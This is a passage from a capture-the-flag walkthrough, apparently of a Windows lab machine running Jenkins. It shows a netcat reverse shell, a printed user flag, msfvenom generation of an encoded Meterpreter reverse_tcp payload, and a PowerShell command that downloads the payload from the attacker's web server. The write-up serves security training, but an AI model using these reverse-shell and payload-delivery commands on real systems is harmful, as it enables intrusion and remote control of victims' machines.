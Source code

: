6. Check the Python web server for a GET request:
   ```
   python3 -m http.server 4444
   Serving HTTP on 0.0.0.0 port 4444 (http://0.0.0.0:4444/) ...
   10.10.195.189 - - [14/Aug/2025 15:30:32] "GET /Invoke-PowerShellTcp.ps1 HTTP/1.1"
   ```

7. The Netcat listener receives a reverse shell:
   ```
   nc -nlvp 9999
   listening on [any] 9999 ...
   connect to [10.11.145.45] from (UNKNOWN) [10.10.195.189] 49214
   Windows PowerShell running as user bruce on ALFRED
   Copyright (C) 2015 Microsoft Corporation. All rights reserved.

   PS C:\Program Files (x86)\Jenkins\workspace\project>
   ```

### User Flag
Navigate to the `bruce` user’s desktop to retrieve the user flag:
```
PS C:\Users\bruce\Desktop> cat user.txt
79007a09481963edf2e1321abd9ae2a0
```

---

## Switching to a Meterpreter Shell

To facilitate privilege escalation, switch to a Meterpreter shell using Metasploit:

1. Generate a reverse shell executable:
   ```bash
   msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.11.145.45 LPORT=6060 -f exe -o shell.exe
   ```

2. Host the executable on a Python web server:
   ```bash
   python3 -m http.server 9999
   ```

3. Download the executable to the target machine:
   ```
   PS C:\Users\bruce\Desktop> powershell "(New-Object System.Net.WebClient).DownloadFile('http://10.11.145.45:9999/shell.exe','shell.exe')"
   PS C:\Users\bruce\Desktop> dir

   Directory: C:\Users\bruce\Desktop

   Mode                LastWriteTime     Length Name
   ----                -------------     ------ ----
   -a---         8/14/2025   8:49 PM      73802 shell.exe
   -a---        10/25/2019  11:22 PM         32 user.txt
   ```

